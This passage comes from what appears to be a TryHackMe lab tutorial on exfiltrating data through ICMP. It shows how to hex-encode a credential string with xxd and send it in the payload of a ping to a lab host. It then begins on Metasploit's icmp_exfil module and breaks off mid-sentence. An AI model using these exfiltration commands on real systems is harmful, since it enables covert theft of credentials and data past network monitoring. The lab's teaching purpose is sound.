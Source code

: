 ![Showing the Data Field value in Wireshark](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/3e8367a535e3f7f4076986987b9e0dcd.png)

The Wireshark screenshot shows that the Data section has been selected with random strings. It is important to note that this section could be filled with the data that needs to be transferred to another machine.&#x20;

The ping command in the Linux OS has an interesting ICMP option. With the -p argument, we can specify 16 bytes of data in hex representation to send through the packet. Note that the -p option is only available for Linux operating systems. We can confirm that by checking the ping's help manual page.

![Ping's -p argument](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/61d50ec683ddae6c2f52f532cc02f685.png)

Let's say that we need to exfiltrate the following credentials thm:tryhackme. First, we need to convert it to its Hex representation and then pass it to the ping command using -p options as follows,

Using the xxd command to convert text to Hex

```markup
root@AttackBox$ echo "thm:tryhackme" | xxd -p 
74686d3a7472796861636b6d650a
```

We used the xxd command to convert our string to Hex, and then we can use the ping command with the Hex value we got from converting the thm:tryhackme.

Send Hex using the ping command.

```markup
root@AttackBox$ ping 10.10.39.16 -c 1 -p 74686d3a7472796861636b6d650a
```

We sent one ICMP packet using the ping command with thm:tryhackme Data. Let's look at the Data section for this packet in the Wireshark.

![Checking Data Field in Wireshark](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/6a086470f770c67c0a07f9572088e5e1.png)

Excellent! We have successfully filled the ICMP's Data section with our data and manually sent it over the network using the ping command.

### ICMP Data Exfiltration

Now that we have the basic fundamentals of manually sending data over ICMP packets, let's discuss how to use Metasploit to exfiltrate data. The Metasploit framework uses the same technique explained in the previous section. However, it will capture incoming ICMP packets and wait for a Beginning of File (BOF) trigger value. Once it is received, it writes to the disk until it gets an End of File (EOF) trigger value. The following diagram shows the required steps for the Metasploit framework. Since we need the Metasploit Framework for this technique, then we need the AttackBox machine to perform this attack successfully.

![ICMP Data Exfiltration](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b45715c44b5998fa9bf6a989b1e0d8d6.png)

Now from the **AttackBox**, let's set up the Metasploit framework by selecting the icmp\_exfil module to make it ready to capture and listen for ICMP traffic. One of the requirements for this module is to set the BPF\_FILTER option, which is based on TCPDUMP rules, to capture only ICMP packets and ignore any ICMP packets that have the source IP of the attacking machine as follows,
